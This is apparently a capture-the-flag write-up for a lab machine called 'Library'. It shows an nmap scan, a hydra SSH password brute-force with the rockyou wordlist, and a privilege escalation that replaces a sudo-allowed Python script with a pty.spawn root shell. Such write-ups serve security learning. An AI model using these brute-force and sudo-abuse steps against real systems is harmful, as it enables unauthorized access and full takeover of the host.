 # Library

## Description

Read user.txt and root.txt

## Challenge

1. user.txt

`nmap -sV -sC -A 10.10.45.75`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
```

`http://10.10.45.75/robots.txt`

![alt text](image.png)

Enumerate users

![alt text](image-1.png)

![alt text](image-2.png)

Brute passwords

`hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.10.45.75` - no luck

`hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.45.75`

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-04-05 02:17:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.45.75:22/
[22][ssh] host: 10.10.45.75   login: meliodas   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
```

Connect to server

`ssh meliodas@10.10.45.75`
```
The authenticity of host '10.10.45.75 (10.10.45.75)' can't be established.
ECDSA key fingerprint is SHA256:sKxkgmnt79RkNN7Tn25FLA0EHcu3yil858DSdzrX4Dc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.45.75' (ECDSA) to the list of known hosts.
meliodas@10.10.45.75's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt
```

2. root.txt

Check our priveleges

`sudo -l`
```
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

`cat bak.py`
```
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Unlucky we can't modify bak.py

![alt text](image-3.png)

BUT! It's our directory and we can remove it and create new file with same name

```
meliodas@ubuntu:~$ rm -f bak.py
meliodas@ubuntu:~$ cat > bak.py << EOF
> 
> #!/usr/bin/env python
> 
> import pty
> 
> pty.spawn("/bin/bash")
> 
> EOF
meliodas@ubuntu:~$ sudo /usr/bin/python3 /home/meliodas/bak.py

root@ubuntu:~# cat /root/root.txt
```